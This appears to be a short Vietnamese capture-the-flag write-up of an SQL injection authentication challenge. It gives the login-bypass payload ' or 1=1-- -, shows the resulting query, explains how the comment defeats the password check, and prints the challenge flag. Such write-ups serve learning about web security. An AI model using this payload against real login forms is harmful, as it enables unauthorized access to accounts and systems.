 # SQL injection - Authentication

Minh thử với payload ```' or 1=1-- -``` tương đương với query là ```Select * from users where username='' or 1=1-- -```
phần comment đã bypass đi password và username kiểm tra điều kiên luôn đúng.
Sau khi login thử inspect để lấy flag.
*Flag: TYsgv75zgtq*
